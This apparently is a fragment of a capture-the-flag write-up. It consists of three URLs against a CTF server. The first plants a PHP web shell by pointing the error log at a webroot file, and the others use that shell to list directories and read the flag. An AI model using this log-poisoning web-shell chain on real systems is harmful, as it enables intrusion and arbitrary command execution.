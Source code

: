 `http://ctf.tcp1p.com:9137/?name=%3C?php%20system($_GET[%27cmd%27]);?%3E&dev=true&error_log=/var/www/html/cmd2.php`
`http://ctf.tcp1p.com:9137/cmd2.php?cmd=ls%20/`
`http://ctf.tcp1p.com:9137/cmd2.php?cmd=cat%20/flag_8q35rtat.txt`
